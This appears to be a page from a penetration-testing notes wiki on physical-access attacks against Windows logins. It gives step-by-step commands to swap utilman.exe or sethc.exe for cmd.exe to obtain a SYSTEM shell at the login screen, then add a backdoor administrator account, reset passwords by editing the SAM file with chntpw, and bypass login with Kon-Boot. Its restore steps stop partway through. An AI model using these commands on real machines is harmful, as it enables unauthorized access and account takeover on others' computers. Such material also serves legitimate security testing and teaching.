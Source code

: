 # ⭕ Physical Attack

## <mark style="color:red;">Sticky Keys + Binary Replacement</mark>

If we can boot from a live USB and access the windows file system indirectly, it is possible to replace some of the binaries responsible for "sticky key" actions such as:

* <mark style="color:green;">**SETHC:**</mark> _sethc.exe_ is invoked when SHIFT is pressed 5 times
* <mark style="color:green;">****</mark>[<mark style="color:green;">**UTILMAN:**</mark>](https://infinitelogins.com/2020/01/13/how-to-sign-into-any-windows-machine-when-you-have-physical-access/) _Utilman.exe_ is invoked by pressing WINDOWS+U
* <mark style="color:green;">**OSK:**</mark> _osk.exe_ is invoked by pressing WINDOWS+U, then launching the on-screen keyboard
* <mark style="color:green;">**DISP:**</mark> _DisplaySwitch.exe_ is invoked by pressing WINDOWS+P

These binaries are located inside _**`C:\Windows\System32`**_`.`we can **change** any of them for a **copy** of the binary **cmd.exe** (also in the same folder) and any time that you invoke any of those binaries a command prompt as **SYSTEM** will appear at the login screen.

```tsconfig
# You can access a SYSTEM cmd shell if you have access to the filesystem
# utilman.exe can be run BEFORE login by "WinKey + U"
# If you can access filesystem and change utilman.exe by a cmd.exe, SYSTEM shell will be run.

# Access can be done by live bootable key (Linux, Windows..)
# From a Windows 10 bootable key -> SHIFT + F10 to access filesystem
move d:\windows\system32\utilman.exe d:\windows\system32\utilman.exe.bak
copy d:\windows\system32\cmd.exe d:\windows\system32\utilman.exe

# OR 

C:\
cd windows\system32
ren utilman.exe utilman.exe.bak
copy cmd.exe utilman.exe

# Then on the logon screen --> WinKey + U
# And then
net user NewGuy abc123 /add
net localgroup Administrators NewGuy /add
# Reverting
# To restore utilman.exe, in the Command Prompt type in:
C:
cd windows\system32
del utilman.exe
```

## <mark style="color:red;">Modifying SAM</mark>

We can use the tool _**chntpw**_ to **modify the** _**SAM**_ **file** of a mounted Windows filesystem. Then, you could change the password of the Administrator user, for example. this tool is available in Kali Linux.

boot from a live disk and mount the windows installation partition (usually the C drive):

```tsconfig
# in case chntpw is not present in your distro
apt-get install chntpw ntfs-3g

# mount C drive
mount -t ntfs /dev/sda2 /mnt
```

change directory to:

```tsconfig
cd /mnt/WINDOWS/system32/config
```

list available users:

```tsconfig
chntpw -l SAM
```

Select User:

```tsconfig
chntpw -u <$USERNAME> SAM 
```

Select an Option from the Menu.

Unmount Windows Partition & Reboot.

{% hint style="warning" %}
This technique wont work on a windows 10  system if the PIN protection is also activated.
{% endhint %}

## <mark style="color:red;">Kon-Boot</mark>

**Kon-Boot** is one of the best tools around which can log you into Windows without knowing the password. It works by **hooking into the system BIOS and temporarily changing the contents of the Windows kernel** while booting (new versions work also with **UEFI**). It then allows you to enter **anything as the password** during login. The next time you start the computer without Kon-Boot, the original password will be back, the temporary changes will be discarded and the system will behave as if nothing has happened.

{% embed url="https://www.raymond.cc/blog/login-to-windows-administrator-and-linux-root-account-without-knowing-or-changing-current-password/" %}

It is a live CD/USB that can **patch the memory** so you **won't need to know the password to login**.\
Kon-Boot also performs the **StickyKeys** trick so you could press _**Shift**_ **5 times to get an Administrator cmd**.
